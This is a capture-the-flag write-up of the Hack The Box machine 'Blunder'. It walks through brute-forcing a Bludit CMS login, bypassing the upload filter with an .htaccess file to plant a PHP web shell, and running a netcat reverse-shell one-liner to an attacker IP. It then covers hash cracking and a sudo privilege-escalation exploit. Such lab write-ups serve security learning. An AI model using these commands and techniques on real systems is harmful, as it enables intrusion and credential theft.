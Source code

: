 ```yaml
---
title: 'Writeup - Hack The Box Blunder'
permalink: /htb-blunder/
categories:
    - 'Hack the Box'
    - 'Penetration Testing'
tags:
    - Blunder
    - 'Hack The Box'
    - HTB
    - 'Penetration Testing'
    - Pentesting
---
```


## Intro

![](/assets/posts/htb_blunder/blunder.png)

The following post will describe how I hacked the previously retired Blunder Box. However, I am not an experienced Pentester, therefore take everything I say with a grain of salt. Now let’s have some fun with this nice Linux Box.

## Setup

As usual add the box to the */etc/hosts* file. This makes our lives easier, since we do not need to remember the IP-Address.

![](/assets/posts/htb_blunder/hosts_file.png)

## Recon

In order to discover potential attack vectors, we have to enumerate the target using nmap.

![](/assets/posts/htb_blunder/nmap.png)

Apache webserver is running on port 80 and we are able to visit the website hosted on the machine using an ordinary browser. After playing around a little bit – there is not a lot that can be done – it looks like a minimalistic blog.

![](/assets/posts/htb_blunder/blog.png)

In order to find out if there are any directories or files on the webserver which are not linked we can make use of [gobuster](https://tools.kali.org/web-applications/gobuster). There are many other alternatives, even tools that provide a GUI (eg.: [dirbuster](https://tools.kali.org/web-applications/dirbuster)).

Just a few seconds later, we already found a some interesting files.

![](/assets/posts/htb_blunder/gobuster.png)

Implementing REP (Robots-Exclusion-Standard-Protocol), *robots.txt* is also often a source of hidden paths which might not be covered by an ordinary wordlist, however, in this case it is useless as it contains nothing.

![](/assets/posts/htb_blunder/robots.png)

The only really useful information that I was able to fetch was the username “*fergus*” from within a text file called *todo.txt*.

![](/assets/posts/htb_blunder/fergus_user.png)

The CMS used is called [Bludit ](https://github.com/bludit/bludit)and with a closer look at the sites html header, the exact version (**3.9.2**) can be determined.

![](/assets/posts/htb_blunder/bludit_version.png)

Now that we have all the information that we can get (at least for now), it is time to find vulnerabilities. After the last step, we know some of the specifics of the CMS and [exploit-db](https://www.exploit-db.com) offers some usable results.

![](/assets/posts/htb_blunder/bludit_vulnerabilities.png)

Let’s use the available python script to bruteforce the passwords. Seems like it simply parses the CSRF token from the HTML, passes it in the request header and finally issues the login request with the provided username and password. In order to check if the login was successful the script checks for “*/admin/dashboard*“. The most promising usernames are probably *“admin*” and “*fergust*“. In order to guess the password *rockyou.txt* can be worth a shot.

``` bash
python3 blunder_bf.py -l http://htb.blunder/admin/login.php -p /usr/share/wordlists/rockyou.txt -u users.txt
```

![](/assets/posts/htb_blunder/brute_force_1.png)

However, I had to give up after some time since I was not able to find a working combination. The password has to be somewhere on the webpage. Let’s try the wordlist generator [cewl](https://tools.kali.org/password-attacks/cewl) to generate a password-list with the content of the page and repeat the above process.

``` bash
cewl http://htb.blunder > passwords.txt
```

``` bash
python3 blunder_bf.py -l http://htb.blunder/admin/login.php -p passwords.txt -u users.txt
```

![](/assets/posts/htb_blunder/brute_force_2.png)

Finally success, we have the credentials and we can login as user “*fergus*“.

![](/assets/posts/htb_blunder/admin_dashboard.png)

Using the browser again, we are in the admin dashboard. Btw, I really like the “visits curve” ;-).

There is not a lot we can do due to missing permissions, however, it seems like we are able to post and upload files. Interesting!, especially because there was a path traversal attack in the exploit database.

![](/assets/posts/htb_blunder/fileupload_filter.png)

After playing a round a little bit, it seems like there are two checks in the code. First, before uploading – in the browser – and also later on the backend. Selecting a file with the file-ending .gif and altering the request won’t work. Uploading a file with the allowed file endings makes no sense, since then they won’t be executed. Also the file endings provided do not look promising for any attack that I am aware of (except maybe XSS for the svg, but that does not help right now). What if the backend verifies the file header, not the file-ending. I ended up downloading a random GIF file from google to read the files magic header. Btw, there is also a huge database available online: [https://www.garykessler.net/library/file\_sigs.html](https://www.garykessler.net/library/file_sigs.html)

![](/assets/posts/htb_blunder/gif_header.png)

I tried to add the magic header in front of the php code, however, was not able to trick the server into accepting the file.

After almost giving up, I stumbled upon the following issue in git: <https://github.com/bludit/bludit/issues/1081>  
The trick of the exploit was to upload a “*.htaccess*” file which switches off the RewriteEngine (<https://httpd.apache.org/docs/current/howto/htaccess.html>). The following lines show the corresponding request.

![](/assets/posts/htb_blunder/exploit_1.png)

After that we are able to upload the “*expoit.php*” file as follows. It will execute commands provided with the “q” parameter. This allows for more flexibility to structure the reverse shell code.

![](/assets/posts/htb_blunder/exploit.png)

I ended up using the following reverse shell.

``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.41 4444 >/tmp/f
```

As soon as the payload executed, the attack machines listener got the connection to the target.

![](/assets/posts/htb_blunder/reverse_shell_listener.png)

Poking around a little, I figured that reading the “*user.txt*” flag was not possible since the process was running as “*www-data*” user. We have to perform privilege escalation in order to get to the flag.

![](/assets/posts/htb_blunder/www-data_user.png)

On the target machine, the following path looked promising. A “*users.php*” file was present, in it two hashes for the “*admin”* and the “*hugo”* users. Both salted, however.

``` bash
/var/www/bludit-3.9.2/bl-content/databases
```

I had to try my luck on the admin user credentials, so I identified the hash using [hash-identifier](https://tools.kali.org/password-attacks/hash-identifier).

![](/assets/posts/htb_blunder/hash_identifier.png)

Looking through the source code of Bludit in github, indeed, the password is for this version is of the form *sha1(password.salt)*:

![](/assets/posts/htb_blunder/hash_git.png)

However, due to the salted password, it is not possible to use a rainbow table… I tried to crack it using [hashcat](https://tools.kali.org/password-attacks/hashcat), but after some time I had to give up.

``` bash
hashcat --hex-salt --hash-type 110 -a 3 admin.hash /usr/share/wordlists/rockyou.txt
```

Back on the Blunder Box, I found another path to a updated newer version of Bludit that I previously missed.

``` bash
/var/www/bludit-3.10.0a/bl-content/databases
```

It also contains a hash, however it seems like no salt is used. Therefore rainbowtables can be used!

![](/assets/posts/htb_blunder/hash_without_salt.png)

Using [CrackStation](https://crackstation.net/) I was able to crack the hash in a matter of seconds. The credentials are “*hugo:Password120*“.

![](/assets/posts/htb_blunder/hugo_user.png)

Aaaaaaaand we are able to grab the first flag in user.txt!

``` bash
90c8********************7f0d
```

## Getting root

However, our current user “*hugo”* cannot make use of sudo and does not have permissions to grab the *root.txt* file.

![](/assets/posts/htb_blunder/sudo_version.png)

Googling for sudo 1.8.25p1 led me to the following exploit on [exploit-db](https://www.exploit-db.com/exploits/47502) (again).

In order for the attack to work, I had to spawning a TTY Shell using python.

``` bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

After that I was able to exploit the vulnerability mentioned above in order to get root!

![](/assets/posts/htb_blunder/privilage_escalation_root.png)

Finally, the last flag in */root/root.txt* can be grabbed. ***S******uccess!***

``` bash
5495********************cf40
```

This box really was fun, and for me as a beginner, the challenge was quite hard to be honest. However, finishing a box is always a nice experience and you definitely get better and better every time.